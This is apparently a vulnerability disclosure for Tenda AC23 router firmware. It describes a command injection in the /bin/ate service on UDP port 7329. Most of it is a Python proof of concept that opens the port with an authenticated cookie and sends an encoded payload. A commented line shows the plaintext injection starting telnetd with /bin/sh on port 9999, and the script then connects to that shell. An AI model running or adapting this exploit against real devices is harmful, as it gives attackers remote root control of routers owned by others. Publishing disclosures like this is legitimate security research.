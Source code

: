 # Tenda AC23(V16.03.07.45_cn) has a command injection Vulnerability

## product 

1. product information: https://www.tenda.com.cn/ 
2. firmware download:https://www.tenda.com.cn/download/detail-3420.html

## vulnerability 

The vulnerability is in `/bin/ate`, we can send msg to it through port `7329`. 

 An authenticated attacker can start this port via httpd. 

In `/bin/ate`, the `ifconfig_`(sub_40A8C8) function has command injection vulnerability. 

![image-20230429232104998](https://github.com/xinzhihen06/ac23tenda/blob/main/image1.png)

It pass input value `a1` to `v2`, and `v2` will pause to `doSystemCmd` 

## poc

1. You need to login and **replace the Cookie: password filed in poc**.
2. By sending  poc, it can cause rce. 

```
import os
import socket
import requests

def attack(ip, port):
    cookie = {
        "password": "25d55ad283aa400af464c76d713c07admvpcvb"
    }
    ret = requests.get('http://%s/goform/ate'%ip, cookies=cookie)
    if '200' in ret:
        print("[*] 7329 opened")
    else:
        ret
    p = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    p.connect((ip, port))
    # payload = b'ifconfig \n\r;telnetd -l /bin/sh -p 9999; \n\r\n\r\n\r\n\r'
    payload =  b'\x99\xbf\xbb\xe4\x1f\x31\x3a\x01\x01\x12\xe7\xc9\x5c\xbe\xd9\x6f'
    payload += b'\x45\xe3\xbd\x8f\x3d\xeb\xfd\x7a\x91\x6d\x16\xd6\x27\x78\xa0\x3e'
    payload += b'\x96\x02\x25\x6e\xcc\x7d\x89\x22\x3b\x91\xa3\x6d\x2f\x2b\xb5\x2b'
    p.send(payload)

    os.system('telnet %s 9999'%ip)

if __name__ == '__main__':
    attack('192.168.1.1', 7329)
```

##Author

xiquan Deng
